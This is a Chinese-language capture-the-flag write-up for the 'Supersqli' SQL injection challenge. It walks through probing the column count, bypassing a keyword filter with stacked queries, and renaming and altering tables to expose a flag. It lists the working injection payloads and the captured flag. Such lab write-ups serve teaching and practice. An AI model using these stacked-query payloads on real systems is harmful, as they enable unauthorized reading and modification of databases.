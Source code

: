# Supersqli

> sql注入,用sqlmap一把梭能探测到存在sql注入,但是获取不了所有数据

## 思路分析

> sql注入,用sqlmap一把梭能探测到存在sql注入,但是获取不了所有数据.手攻来注入,直接加单引号,报错,发现用#可注释掉.先用order by判断字段数量

> 1' order by 1 # 
> 1' order by 3 # 这时报错,说明字段数量有2个
> 这时后加union select发现报错,有过滤条件,
> return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
> 常见的字符串已经过滤掉了,此时尝试堆叠注入,发现能用

> 1';show databases;# 查看所有数据库
> 1';show tables;#    查看所有表格
> 1';show columns from words;#    查看words表格下面的列
> 1';show columns from \`1919810931114514\`;#  (数字1开头时要加反引号,mysql规定,为了不和保留字符相冲突)

> 前面查看words表时发现了2个表格,所以判断出默认查询的表是words表,又发现flag存在1919810931114514b表中,没有过滤rename和alert,所以可以采用修改表结构的方法来得到flag,将words表名改为words1,再将数字名表改为words,这样数字名表就是默认查询的表了,但是它少了一个id列,可以将flag字段改为id,或者添加id字段
> 1';rename tables \`words\` to \`words1\`;rename tables \`1919810931114514\` to \`words\`; alter table \`words\` change \`flag\` \`id\` varchar(100);#

> 最后1' or 1=1 # 获取flag

## payload

> 1';rename tables \`words\` to \`words1\`;rename tables \`1919810931114514\` to \`words\`; alter table \`words\` change \`flag\` \`id\` varchar(100);#

> 1' or 1=1 #

## flag

> flag{c168d583ed0d4d7196967b28cbd0b5e9}
